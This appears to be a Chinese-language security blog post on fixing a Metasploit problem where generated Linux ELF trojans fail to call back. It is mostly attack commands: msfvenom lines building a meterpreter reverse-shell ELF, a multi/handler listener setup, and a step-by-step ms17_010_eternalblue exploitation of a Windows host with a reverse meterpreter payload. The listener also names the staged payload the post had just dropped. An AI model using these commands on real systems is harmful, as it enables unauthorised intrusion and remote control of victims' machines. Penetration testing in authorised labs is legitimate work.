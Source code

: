 ```yaml
---
layout: post
title: msf 生成 linux elf 木马反弹不成功的解决方法
categories: [安全工具]
description: docker 版本安装 msf 
keywords: 安全工具,msf
---
```


# 0x01 前言

## 这几天我的msf 要生成linux 的木马 一直反弹不成功，用的是以下的paylaod

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.233.131 LPORT=4444 -f elf > mshell.elf

我分析了一下报错，这个报错是没问题的，但生成的木马只有250b ，这明显是不成功的。

## 0x02 解决问题

我刚开始认为是我msf的问题 ，回来验证了一下，我的msf 是6的版本，而这个语句是5的写法，而我启动 msfconsole ，发现我的版本是6


**msf 6的生成语句为**

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.3.16 LPORT=4444 -f elf > shell.elf
```
所以我改了payload ：linux/x64/meterpreter_reverse_tcp
这时候，就可以生成成功

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.233.131 LPORT=4444 -f elf > mshell.elf
```

生成监听

```
msfconsole                                         # 在命令行里面输入命令，进入msf漏洞利用框架；
use exploit/multi/handler                          # 监听木马反弹过来的shell
set payload linux/x64/meterpreter/reverse_tcp  	   # 设置payload，不同的木马设置不同的payload，设置payload时，要根据目标系统的系统位数设置相应的payload;
set lhost 192.168.100.132                          # 我们的kali本机ip
set lport 6666                                     # 我们的kali本机端口
exploit           

```
反弹成功。


## 利用ms17_010_eternalblue模块进行渗透：
打开msf框架：

msfconsole

使用ms17_010_eternalblue模块及各个配置：

use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp

show options

set rhost 目标主机IP

set lhost 监听的主机IP（在这里是docker主机的IP）

set lport 监听的端口（示例中为设置的映射的端口1234）

exploit
